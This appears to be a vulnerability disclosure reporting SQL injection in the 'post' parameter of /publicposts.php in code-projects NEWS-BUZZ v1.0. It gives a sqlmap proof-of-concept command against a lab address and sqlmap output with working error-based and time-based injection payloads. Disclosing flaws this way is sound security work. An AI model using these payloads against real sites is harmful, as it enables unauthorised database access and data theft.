 # SQLi vulnerability in code-projects NEWS-BUZZ (News Management System) v1.0 of file /publicposts.php with param 'post'

**vender**:

- code-projects

**SoftLink**:

- NEWS-BUZZ (News Management System)

**Vulnerable File**

- /publicposts.php

**Version**

- V1.0

### POC

```bash
sqlmap -u http://192.168.129.1/NEWS-BUZZ/publicposts.php?post=1 --level=5 -p post --batch
```



```
sqlmap identified the following injection point(s) with a total of 1264 HTTP(s) requests:
---
Parameter: post (GET)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: post=1 AND GTID_SUBSET(CONCAT(0x7178767071,(SELECT (ELT(7489=7489,1))),0x716a717071),7489)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: post=1 AND (SELECT 5208 FROM (SELECT(SLEEP(5)))vnMP)
---
```



![image-20250601011011645](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202506010110773.png)